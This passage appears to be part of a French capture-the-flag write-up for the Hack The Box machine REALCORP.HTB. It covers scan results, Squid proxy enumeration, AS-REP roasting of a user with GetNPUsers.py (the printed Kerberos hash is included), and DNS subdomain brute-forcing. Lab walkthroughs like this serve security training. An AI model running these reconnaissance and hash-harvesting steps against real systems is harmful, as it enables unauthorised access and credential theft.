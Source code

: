 ```py
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8
```

Sur le serveur distant, nous avons 4 services :
- Un serveur SSH sur le port 22
- Un serveur DNS sur le port 53 
- Un serveur Kerberos sur le port 88
- Un proxy Squid sur le port 3128

Je suppose que la machine cible tourne sur la distribution linux Red Hat par rapport à la réponse DNS et que l'host de la machine est REALCORP.HTB.

<div id='enum_squid'/>
## Enumeration Squid proxy

En tentant d'accéder au proxy nous découvrons un utilisateur : `j.nakazawa`, un nom de domaine : `realcorp.htb` et un sous-domaine : `srv01.realcorp.htb`:

![discovery_user_host_subdomain](https://i.imgur.com/aVXsYmp.png)

Cette utilisateur est AS-REP Roastable, nous pouvons donc récupérer son ticket Kerberos à partir du KDC mais le hash Kerberos 5 AS-REP etype 23 est incassable :

```py
❯ GetNPUsers.py -dc-ip 10.10.10.224 -no-pass realcorp.htb/j.nakazawa

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa@REALCORP.HTB:19231d6324028ef033447c744cecff89$3820ac18d889cbc260ae2bdb37ae95df0c7668b3f0b1c210a30b8cc93152a8335d5e1d884a2691cec399041be849255b927c1055b0922cc9d3ddff2028a9ce9b22cdfa1cc57493ad0d3d5900c64ea0a7da48a42324b8334ce11ea3752f0aee4d5260dfb2434452960ea6e9f9540a223392717cdb28b8b538e41f98e1ca521d0968d03073e2ab61845f9af5d01f9faa4fed0e57ec477c71ecb8c56f7de38d6d07cb9cdb4a6d72357bbb0a60b719fdef19cc0f2eb9190572eb15d2b0e85a1031b1576c19e2e236414830131c044fcc835c5d886e284005d01a7365
```

<div id='enum_dns'/>
## Enumeration DNS server

Pour automatiser notre énumération je vais utiliser [DNSEnum](https://eromang.zataz.com/2009/06/04/dnsenum-informations-noms-domaine/) :

```py
❯ dnsenum -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --dnsserver 10.10.10.224 realcorp.htb

-----   realcorp.htb   -----
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31
```
